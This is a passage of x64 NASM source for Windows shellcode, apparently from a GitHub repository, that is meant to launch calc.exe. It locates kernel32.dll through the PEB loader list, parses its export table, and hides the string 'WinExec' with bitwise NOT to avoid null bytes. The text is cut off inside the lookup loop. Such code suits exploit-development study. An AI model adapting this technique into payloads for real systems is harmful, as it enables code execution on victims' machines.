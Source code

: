 > **calc.asm**

```nasm

;nasm -fwin64 [x64findkernel32.asm]
;ld -m i386pep -o x64findkernel32.exe x64findkernel32.obj

; locates kernel32.dll searching the UNICODE string instead of the location in the list
; then loads calc.exe

BITS 64
SECTION .text
global main
main:
sub rsp, 0x28
and rsp, 0xFFFFFFFFFFFFFFF0
xor rcx, rcx             ; RCX = 0

; Access TEB base: GS segment points to TEB
mov rax, gs:[0x30]
; Access PEB from TEB (TEB + 0x60)
mov rax, [rax + 0x60]

;mov rax, [gs:rcx + 0x60] ; RAX = PEB
mov rax, [rax + 0x18]    ; RAX = PEB->Ldr (_PEB_LDR_DATA)
mov rsi,[rax+0x10]       ;PEB.Ldr->InMemOrderModuleList

checkit:
mov rsi, [rsi] 
mov rcx, [rsi + 0x60] 

mov rbx, [rcx]
mov rdx, 0x004E00520045004B ;UNICODE "K E R N" from KERNEL32.DLL
cmp rbx, rdx
jz foundit
jnz checkit

foundit:
mov rbx, [rsi + 0x30]

mov r8, rbx              ; mov kernel32.dll base addr into r8
;Code for parsing Export Address Table
mov ebx, [rbx+0x3C]           ; Get Kernel32 PE Signature (offset 0x3C) into EBX
add rbx, r8                   ; Add signature offset to kernel32 base. Store in RBX.
xor rcx, rcx                  ; Avoid null bytes from mov edx,[rbx+0x88] by using rcx register to add
add cx, 0x88ff
shr rcx, 0x8                  ; RCX = 0x88ff --> 0x88
mov edx, [rbx+rcx]            ; EDX = [&NewEXEHeader + Offset RVA ExportTable] = RVA ExportTable
add rdx, r8                   ; RDX = kernel32.dll + RVA ExportTable = ExportTable Address
mov r10d, [rdx+0x14]          ; Number of functions
xor r11, r11                  ; Zero R11 before use
mov r11d, [rdx+0x20]          ; AddressOfNames RVA
add r11, r8                   ; AddressOfNames VMA
mov rcx, r10                  ; Set loop counter
mov rax, 0x6F9C9A87BA9196A8   ; WinExec 'encoded'
not rax
shl rax, 0x8
shr rax, 0x8
push rax
mov rax, rsp	
add rsp, 0x8
kernel32findfunction:             ; Loop over Export Address Table to find WinApi names
    jecxz FunctionNameNotFound    ; Loop around this function until we find WinExec
```